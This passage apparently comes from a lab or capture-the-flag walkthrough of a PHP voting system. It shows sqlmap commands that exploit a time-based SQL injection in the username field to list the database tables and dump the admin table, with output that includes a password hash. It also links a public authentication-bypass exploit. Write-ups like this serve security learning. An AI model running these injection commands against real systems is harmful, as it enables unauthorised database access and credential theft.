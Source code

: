 Let's see what tables are in there:

```
sqlmap -r request2 -p username --dbms=mysql -D votesystem --tables
```

```
#Output:
Database: votesystem
[5 tables]
+------------+
| admin      |
| candidates |
| positions  |
| voters     |
| votes      |
+------------+
```

Let's now go for the admin table:

```
sqlmap -r request2 -p username --dbms=mysql --time-sec=3 -D votesystem -T admin --dump
```

```
[23:29:57] [INFO] retrieved: admin
Database: votesystem
Table: admin
[1 entry]
+----+-----------------------------+----------+--------------------------------------------------------------+----------+-----------+------------+
| id | photo                       | lastname | password                                                     | username | firstname | created_on |
+----+-----------------------------+----------+--------------------------------------------------------------+----------+-----------+------------+
| 1  | facebook-profile-image.jpeg | Devierte | $2y$10$4E3VVe2PWlTMejquTmMD6.Og9RmmFN.K5A1n99kHNdQxHePutFjsC | admin    | Neovic    | 2018-04-02 |
+----+-----------------------------+----------+--------------------------------------------------------------+----------+-----------+------------+

```

Eventually this time-based SQLi made me realize we are not on the intended path. The BCrypt is 100% not to be cracked.

So I start google more, actually I ditched google some time ago and now I use russian and chinese search engines beacuse they are more convinient and reliable when querying nowadays, especially for pentest.

I stumbled upon this: [https://www.exploit-db.com/exploits/49843](https://www.exploit-db.com/exploits/49843)

Followed the PoC: [https://secure77.de/php-voting-system-admin-authentication-bypass-sqli/](https://secure77.de/php-voting-system-admin-authentication-bypass-sqli/)
